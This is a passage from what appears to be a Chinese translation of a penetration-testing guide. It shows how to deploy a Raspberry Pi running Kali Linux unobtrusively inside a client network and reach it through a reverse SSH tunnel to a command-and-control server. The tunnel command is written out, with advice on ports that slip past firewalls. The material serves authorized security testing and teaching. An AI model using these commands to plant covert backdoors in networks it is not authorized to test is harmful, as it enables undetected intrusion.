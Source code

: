 现在，我们应该能够通过命令行远程访问服务器-有趣的东西！

# 通过 SSH 反向 shell

Raspberry Pi 小巧的外形使其成为一个出色的平台，可在客户环境中进行隐蔽或不显眼的部署。许多组织都有安全措施来阻止传入连接，目的是防止后门进入其网络。在白盒评估中，我们可能会明确地打开防火墙，以允许 SSH 连接到我们的 Raspberry Pi，如下图所示。坏消息是，即使从政策角度来看这是可能的，但在处理多个管理控制下的多个站点时，可能很难实现。无论如何，作为渗透测试的第一步，突破外围防御会产生很多噪音，让我们要么沮丧，要么找工作。那么，在野外，我们如何与内部的树莓皮 3 进行交流呢？

我们可以利用这样一个事实，即大多数组织在默认情况下不会将其安全设备上的出站流量限制到其入站流量受到限制的程度。Linux 主机实际上可以通过反向 shell 为我们打开大门，这非常容易执行。

由于 Kali Linux 是一个功能齐全的 Linux 操作系统，我们可以通过 SSH 控制整个环境。虽然传入的 SSH 连接可能会被防火墙或其他安全解决方案阻止，但是反向 SSH 对于我们管理运行 Kali Linux 的 Raspberry Pi 来说是一个很好的选择。

在反向连接中，客户端连接并启动到服务器的连接，而不是服务器连接到客户端。在这两种情况下，服务器都控制客户端。这与许多后门程序的技术相同。出于我们的目的，我们将使用它作为一个管理实用程序—我们自己的 C&C 连接。

### 注

许多入侵检测和预防解决方案都可以基于看起来不同的网络流量检测 SSH，而不考虑端口。例如，使用端口`443`看起来仍然与普通 HTTPS 通信不同。

我们将使用`ssh`命令中的`-R`开关创建到侦听器的反向连接。侦听器是侦听以接受反向 SSH 连接的设备。在我们的例子中，C&C 服务器是侦听器。远程主机（Raspberry Pi）上使用的命令语法为`ssh -R [bind_address:]port:host:hostport`。

`-R`开关指定远程端将要连接的端口或它将如何启动连接。换句话说，我们需要选择一个远程 Raspberry Pi 能够连接的端口。大多数组织没有严格的出站筛选策略，这使得这种方法比标准 SSH 连接更有效。我们发现常见的开放端口有 TCP 端口`22`、`80`、`443`或`53`，这意味着客户端可以使用这些端口自由连接到外部世界。

### 注

严格的出站协议检查设备，如下一代防火墙、下一代**入侵防御系统**（**IPS**）和高级代理服务器可能会阻止这些类型的连接。

**主机端口**是我们的 Raspberry Pi 上的端口，该端口设置了监听服务。在我们的例子中，我们运行的是 SSH 服务器，因此主机端口默认为`22`。我们可以将默认端口更改为更隐蔽的端口或利用*stunnel*，这将在本章后面介绍。我们需要的端口将是 TCP 端口，服务器正在接受来自 Raspberry Pi 的传入连接。hostport 是服务器运行 SSH 服务的端口。我们使用了一个非根主机名，因为在没有两层身份验证的情况下，可能不建议通过前端访问完整的根。

在我们的 Raspberry Pi 示例中，我们输入以下命令：

```
ssh -fN -R 7000:localhost:22 username@ip-address-of-our-
command-and-control-server

ssh -fN -R 7000:localhost:22 mike@10.5.8.57

```

这假设端口`7000`被允许从我们的 Raspberry Pi 所连接的网络中退出。如果不起作用，请尝试不同的端口。我们也遇到了一些间歇性的问题，在早期的安装任务中私钥的权限发生了变化，并导致了问题——如果我们遇到这些问题，我们应该确保我们的帐户拥有它们的密钥，并且`ssh`可以看到它们。大多数组织将允许出站端口`443`和`8443`。如果我们不确定使用哪个端口，我们也可以使用 Nmap 来查找一些漏洞。我们将在后面的章节中讨论 Nmap。

下图描述了如何使用端口`443`：
